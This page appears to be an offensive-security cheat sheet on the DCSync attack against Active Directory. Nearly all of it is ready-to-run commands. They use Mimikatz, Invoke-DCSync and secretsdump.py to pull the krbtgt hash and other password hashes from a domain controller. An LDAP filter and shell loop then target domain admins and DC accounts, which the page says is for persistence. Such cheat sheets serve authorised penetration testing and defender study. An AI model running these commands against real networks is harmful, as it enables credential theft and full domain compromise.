 ```yaml
---
description: DS-Replication-Get-Changes + DS-Replication-Get-Changes-All
---
```


# DCSync




## Tools



### Mimikatz

```
mimikatz # lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt
mimikatz # lsadump::dcsync /domain:megacorp.local /user:krbtgt@megacorp.local
```


#### Invoke-Mimikatz

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)

```
PS > Invoke-Mimikatz '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt" "exit"'
```



### Invoke-DCSync.ps1

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1)

```
PS > Invoke-DCSync -GetComputers -Domain megacorp.local -DomainController DC1.megacorp.local
```



### secretsdump.py

```
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt'
$ secretsdump.py DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```


#### Targeted DCSync

When performing targeted DCSync (e.g., for persistence purposes) choose the most valuable accounts. One can use the following LDAP query to search for effective domain admins (`adminCount=1`) as well as DC computer accounts (`SERVER_TRUST_ACCOUNT` bit or `userAccountControl=8192` is set):

```
(&
	(|
		(&(objectCategory=person)(objectClass=user))
		(&(objectCategory=computer)(objectClass=computer))
	)
	(!(userAccountControl:1.2.840.113556.1.4.803:=2))
	(|
		(adminCount=1)
		(userAccountControl:1.2.840.113556.1.4.803:=8192)
	)
)

$ windapsearch --dc 192.168.1.11 -d megacorp.local -u 'DC1$' --hash fc525c9683e8fe067095ba2ddc971889 -m custom --filter '(&(|(&(objectCategory=person)(objectClass=user))(&(objectCategory=computer)(objectClass=computer)))(!(userAccountControl:1.2.840.113556.1.4.803:=2))(|(adminCount=1)(userAccountControl:1.2.840.113556.1.4.803:=8192)))' --attrs msDS-PrincipalName | grep msDS | awk '{print $2}' | tee high-value-targets.txt
$ for t in `cat high-value-targets.txt`; do secretsdump.py -pwd-last-set MEGACORP/'DC1$'@192.168.2.22 -hashes :fc525c9683e8fe067095ba2ddc971889 -just-dc-user $t | grep aad3b | tee high-value-hashes.txt; done
Or
$ secretsdump.py -pwd-last-set MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -ldapfilter '(&(|(&(objectCategory=person)(objectClass=user))(&(objectCategory=computer)(objectClass=computer)))(!(userAccountControl:1.2.840.113556.1.4.803:=2))(|(adminCount=1)(userAccountControl:1.2.840.113556.1.4.803:=8192)))' | grep aad3b | tee high-value-hashes.txt
```
